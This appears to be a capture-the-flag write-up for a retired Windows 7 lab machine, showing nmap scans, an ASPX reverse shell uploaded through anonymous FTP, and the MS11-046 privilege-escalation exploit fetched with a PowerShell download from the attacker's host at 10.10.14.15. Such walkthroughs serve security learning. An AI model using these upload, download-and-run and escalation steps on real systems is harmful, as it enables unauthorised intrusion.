










Box author | 

<!--more-->

## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result



- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result



### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it



- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`



- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command



- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result



- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046



- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit

If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
Just run this command to install  it `apt install mingw-w64` 


- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.



- YES! I'm become `SYSTEM`

## User Flag



## Administrator Flag



## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)